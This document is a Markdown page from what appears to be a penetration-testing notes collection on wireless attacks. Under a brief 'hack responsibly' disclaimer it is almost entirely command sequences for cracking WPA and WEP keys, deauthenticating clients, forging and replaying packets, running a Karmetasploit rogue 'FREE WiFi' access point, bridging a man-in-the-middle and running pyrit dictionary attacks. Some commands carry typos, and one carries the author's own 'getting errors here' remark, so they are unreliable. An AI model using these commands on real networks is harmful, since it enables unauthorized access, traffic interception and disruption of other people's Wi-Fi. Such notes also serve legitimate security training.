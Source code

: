 # Wireless

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

[https://www.bettercap.org/](https://www.bettercap.org/)

[https://miloserdov.org/?p=1112\#1](https://miloserdov.org/?p=1112#1)

Nothing here yet...please feel free to contribute at [https://www.github.com/zweilosec](https://github.com/zweilosec)



## Choosing a wireless module

You must choose a wireless module that has a chipset that is capable of being put in monitor mode.  The site below has a fairly comprehensive list of adapters that support this.  

[https://miloserdov.org/?p=2196](https://miloserdov.org/?p=2196)

## **Setting TX \(transmit\) POWER**

`iw reg set BO`  
`iwconfig wlan0 txpower 25`

## **Cracking WPA**

`airmon-ng start wlan0`  
`airodump-ng -c $channel --bssid $AP_MAC -w $out_file wlan0mon`  
`aireplay-ng -0 1 -a $AP_MAC -c $victim_MAC wlan0mon` \#{de-authentication attack}  
`aircrack-ng -0 -w $pass_list $cap_file`

## **Cracking WEP**

###  **with Connected Clients**

`airmon-ng start wlan0 #[$channel]`  
`airodump-ng -c $channel --bssid $AP_MAC -w $out_file wlan0mon`  
`aireplay-ng -1 0 -e $ESSID -a $AP_MAC -h $host_MAC wlan0mon` \#{fake authentication}  
`aireplay-ng -3 -b $AP_MAC -h $host_MAC wlan0mon` \#{ARP replay attack}`aireplay-ng -0 1 -a $AP_MAC -c $client_MAC wlan0mon` \#{de-authentication attack - as needed}

### **via a Client**

`airmon-ng start wlan0 #[$channel]`  
`airodump-ng -c $channel --bssid $AP_MAC -w $out_file wlan0mon`  
`aireplay-ng -1 0 -e $ESSID -a $AP_MAC -h $host_MAC wlan0mon` \#{fake authentication}  
`aireplay-ng -2 -b $AP_MAC -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon`  
`aireplay-ng -2 -r $in_cap_file wlan0mon` \#{inject using cap file}  
`aircrack-ng -0 -z -n 64 $in_cap_file`

### **ARP amplification**

`airmon-ng start wlan0 #[$channel]`  
`airodump-ng -c $channel --bssid $AP_MAC -w $out_file wlan0mon`  
`aireplay-ng -1 500 -q 8 -a $AP_MAC wlan0mon`  
`areplay-ng -5 -b $AP_MAC -h $host_MAC wlan0mon`  
`packetforge-ng -0 -a $AP_MAC -h $host_MAC -k 255.255.255.255 -l 255.255.255.255 -y $FRAGMENT_XOR   -w $out_cap_file`  
`tcpdump -n -vvv -e -s0 -r $in_cap_file`  
`packetforge-ng -0 -a $AP_MAC -h $host_MAC -k $destIP) -l $srcIP) -y $FRAGMENT_XOR -w $out_cap_file`  
`aireplay-ng -2 -r $in_cap_file wlan0mon`

### **Cracking WEP /w shared key AUTH**

`airmon-ng start wlan0 #[$channel]`  
`airodump-ng -c $channel --bssid $AP_MAC -w $out_file wlan0mon`  
\#getting errors here: `aireplay-ng -1 0 -e $ESSID -a $AP_MAC -h $host_MAC wlan0mon` \#{fake authentication}  
`aireplay-ng -0 1 -a #AP_MAC -c $client_MAC wlan0mon` \#{de-authentication attack}  
`aireplay-ng -1 60 -e $ESSID -y $sharedkey_file -a $AP_MAC -h $host_MAC wlan0mon` \#{fake authentication /w PRGA XOR file}  
`aireplay-ng -3 -b $AP_MAC -h $host_MAC wlan0mon` \#{ARP replay attack}  
`aireplay-ng -0 1 -a $AP_MAC -c $client_MAC wlan0mon` \#{de-authentication attack}  
`aircrack-ng -0 -z -n 64 $in_cap_file` \#{PTW attack; \[-n\]: Specify the length of the key: 64 for 40-bit WEP, 128 for 104-bit WEP}

### **Cracking a Clientless WEP \(FRAG AND KOREK\)**

#### _{FRAG}_

airmon-ng start wlan0 \(channel\)  
airodump-ng -c \(channel\) –bssid \(AP MAC\) -w \(filename\) wlan0mon  
aireplay-ng -1 60 -e \(ESSID\) -a \(AP MAC\) -h \(OUR MAC\) wlan0mon {fake authentication}  
~aireplay-ng -5 \(frag attack\) -b \(AP MAC\) -h \(OUR MAC\) wlan0mon  
packetforge-ng -0 -a \(APMAC\) -h \(OUR MAC\) -l 255.255.255.255 -k 255.255.255.255 -y \(fragment filename\) -w filename.cap  
tcpdump -n -vvv -e -s0 -r filename.cap {TEST}  
aireplay-ng -2 -r filename.cap wlan0mon

#### _{KOREK}_

~aireplay-ng -4 -b \(AP MAC\) -h \(OUR MAC\) wlan0mon  
tcpdump -s 0 -s -e -r replayfilename.cap  
packetforge-ng -0 -a \(APMAC\) -h \(OUR MAC\) -l 255.255.255.255\(source IP\) -k 255.255.255.255\(dest IP\) -y \(fragmentfilename xor\) -w filename.cap  
aireplay-ng -2 -r filename.cap wlan0mon  
aircrack-ng -0 filename.cap

## **Karmetasploit**

airbase-ng -c \(channel\) -P -C 60 -e “FREE WiFi” -v wlan0mon  
ifconfig at0 up 10.0.0.1/24  
mkdir -p /var/run/dhcpd  
chown -R dhcpd:dhcpd /var/run/dhcpd  
touch /var/lib/dhcp3/dhcpd.leases  
cat dhcpd.conf  
touch /tmp/dhcp.log  
chown dhcpd:dhcpd /tmp/dhcp.log  
dhcpd3 -f -cf /tmp/dhcpd.conf -pf /var/run/dhcpd/pid -lf /tmp/dhcp.log at0  
msfconsole -r /root/karma.rc

## **MISC**

### **Bridge-control man in the middle**

airebase-ng -c 3 -e “FREE WiFi” wlan0mon  
brctl addbr hacker\(interface name\)  
brctl addif hacker eth0  
brctl addif hacker at0  
ifconfig eth0 0.0.0.0 up  
ifconfig at0 0.0.0.0 up  
ifconfig hacker 192.168.1.8 up  
ifconfig hacker  
echo 1 &gt; /proc/sys/net/ipv4/ip\_forward

### **pyrit DB attacks**

pyrit eval  
pyrit -i \(wordlist\) import\_passwords  
pyrit -e \(essid\) create\_essid  
pyrit batch  
pyrit batch -r \(capturefile\) -b\(AP MAC\) attack\_db

**pyrit strip**  
pyrit -r \(capturefile\) -o \(capturefile output\) strip

**pyrit dictionary attack**  
pyrit -r \(capturefile\) -i \(/pathtowordlist\) -b \(AP MAC\) attack\_passthrough

### **airgraph-ng**

airgraph-ng -i filename.csv -g CAPR -o outputfilename.png  
eog outputfilename.png  
airgraph-ng -i filename.csv -g CPG -o outputfilename.png  
eog outputfilename.png

### **airdecap-ng**

airdecap-ng -b \(vic ap\) outputfilename.cap  
wireshark outputfilename.cap  
airdecap-ng -w \(WEP KEY\) \(capturefile.cap\)  
wireshark capturefile-DEC.cap  
airdecap-ng -e \(ESSID VIC\) -p \(WPA PASSWORD\) \(capturefile.cap\)  
wireshark capturefile-dec.cap

